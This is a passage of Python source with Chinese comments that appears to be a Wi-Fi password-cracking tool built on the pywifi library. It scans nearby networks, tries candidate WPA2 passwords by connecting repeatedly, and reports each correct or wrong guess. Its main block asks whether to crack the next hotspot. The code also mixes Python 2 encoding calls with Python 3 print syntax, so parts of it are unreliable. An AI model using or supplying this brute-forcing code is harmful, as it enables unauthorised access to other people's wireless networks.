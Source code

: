 ```
        iface_no = input('请选择网卡接口序号：'.decode('utf-8').encode('gbk'))
        no = int(iface_no)
        if no >= 0 and no < num:
          return self.interfaces[no]

  # 查看无线网卡是否处于连接状态
  def check_interfaces(self):                
    if self.iface.status() in [const.IFACE_CONNECTED, const.IFACE_CONNECTING]:
      print('无线网卡：%s 已连接。' % self.iface.name())
    else:
      print('无线网卡：%s 未连接。' % self.iface.name())

  # 扫描周围wifi
  def scan_wifi(self):
    self.iface.scan()                    #扫描周围wifi
    time.sleep(1)                      #不缓冲显示不出来
    result = self.iface.scan_results()            #获取扫描结果，wifi可能会有重复
    has = []                        #初始化已扫描到的wifi
    wifi_list = []                      #初始化扫描结果
    for i in result:
      if i not in has:                  #若has中没有该wifi，则
        has.append(i)                  #添加到has列表
        if i.signal > -90:                #信号强度<-90的wifi几乎连不上
          wifi_list.append((i.ssid, i.signal))    #添加到wifi列表
          print('wifi信号强度：{0}，名称：{1}。'.format(i.signal, i.ssid))#输出wifi名称
    return sorted(wifi_list, key=lambda x:x[1], reverse=True)  #按信号强度由高到低排序

  # 连接wifi
  def connect_wifi(self, wifi_name, wifi_password):
    self.iface.disconnect()                  #断开无线网卡连接
    time.sleep(1)                      #缓冲1秒
    profile_info = Profile()                #wifi配置文件
    profile_info.ssid = wifi_name               #wifi名称
    profile_info.auth = const.AUTH_ALG_OPEN         #需要密码
    profile_info.akm.append(const.AKM_TYPE_WPA2PSK)      #加密类型
    profile_info.cipher = const.CIPHER_TYPE_CCMP       #加密单元
    profile_info.key = wifi_password             #wifi密码
    self.iface.remove_all_network_profiles()        #删除其他配置文件
    tmp_profile = self.iface.add_network_profile(profile_info)   #加载配置文件
    self.iface.connect(tmp_profile)              #连接
    #尝试5秒是否能成功连接(时间过短可能会导致正确密码尚未连接成功)
    time.sleep(5)        
    if self.iface.status() == const.IFACE_CONNECTED:
      print('\n==========================================================================')
      print('wifi：{0}连接成功，密码：{1}'.format(wifi_name, wifi_password), end='')
      print('==========================================================================\n')
      return True
    else:
      print('密码错误：{0}'.format(wifi_password), end='')
      return False

  # 断开无线网卡已连接状态
  def disconnect_wifi(self):
    self.iface.disconnect()          
    if self.iface.status() in [const.IFACE_DISCONNECTED, const.IFACE_INACTIVE]:
      print('无线网卡：%s 已断开。' % self.iface.name())
    else:
      print('无线网卡：%s 未断开。' % self.iface.name())

if __name__ == '__main__':
  sf = ['Y', 'y', 'N', 'n']
  dian = input('是否需要手动点击破解下一个wifi热点(Y/N)？').strip()
  wifi = wifi()                        #实例化wifi类
```